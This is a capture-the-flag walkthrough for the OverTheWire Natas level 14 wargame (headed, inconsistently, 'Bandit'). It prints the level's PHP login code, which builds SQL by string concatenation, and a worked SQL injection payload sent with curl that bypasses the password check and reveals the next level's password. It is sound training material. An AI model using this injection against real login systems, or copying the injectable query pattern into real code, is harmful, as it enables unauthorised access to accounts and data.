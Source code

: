 # BANDIT LEVEL 14

```
http://overthewire.org/wargames/natas/natas14.html
```

```
Username: natas14
Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
URL:      http://natas14.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

#### CODE INSPECTION

```
<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas14</h1> 
<div id="content"> 
<? 
if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas14', '<censored>'); 
    mysql_select_db('natas14', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { 
            echo "Successful login! The password for natas15 is <censored><br>"; 
    } else { 
            echo "Access denied!<br>"; 
    } 
    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
Password: <input name="password"><br> 
<input type="submit" value="Login" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Reading the code, we see that:

- the webapp connects to a database on `localhost` called `natas14`
- there is a SQL `SELECT` query for matches on `username` and `password` 
- if the number of returned rows from the query is > 0, password is revealed
- we note there appears to be a debug flag called `debug` that would yield
  the SQL `SELECT` query being executed

A little test program to see what the SQL query looks like..

```
$ cat app.php
<?

$REQUEST_username = "test";
$REQUEST_password = "1234";

$query = "SELECT * from users where username=\"".$REQUEST_username."\" and password=\"".$REQUEST_password."\"";

echo "Executing query: $query\n";
?>
$ php app.php
Executing query: SELECT * from users where username="test" and password="1234"
```

This looks like a simple SQL injection problem. Let's take advantage of the
"debug" mode which is triggered by a `GET` request (as opposed to the `POST`
request we make when we use the form).

Crafting a URL like so..

```
http://natas14.natas.labs.overthewire.org/index.php?username=test_username&password=test_password&debug
```

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="test_username" and password="test_password"<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

#### SQL INJECTION

We see from the code that our inputs are used directly into the SQL statement.
If we pass in a username string that modifies the SQL statement to always
evaluate to true and leverage the SQL inline comment `--` to mask out any
troublesome bits, we should be able to get the password.

A username like `test_username" OR 1=1 -- ` would:

1. syntactically complete the `where username="test_username" clause so we
   don't cause a syntax error with our SQL `SELECT` statement
2. introduce a new clause `OR 1=1` that will always evaulate to true
3. leverage the SQL inline comment `--` to render the rest of the SQL command
   (such as the pesky `and password` clause) as comments to be ignored

The resulting SQL query should look something like:

```
SELECT * from users where username="test_username" or 1=1 -- " and password="test_password"
```

Our `GET` URL will look like this..

```
http://natas14.natas.labs.overthewire.org/index.php?username=test_username%22%20OR%201=1%20--%20&password=test_password&debug
```

```
$ curl 'http://natas14.natas.labs.overthewire.org/index.php?username=test_username%22%20or%201=1%20--%20&password=test_password&debug' \
  -H 'Authorization: Basic bmF0YXMxNDpMZzk2TTEwVGRmYVB5VkJrSmRqeW1ibGxRNUw2cWRsMQ=='
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="test_username" or 1=1 -- " and password="test_password"<br>Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
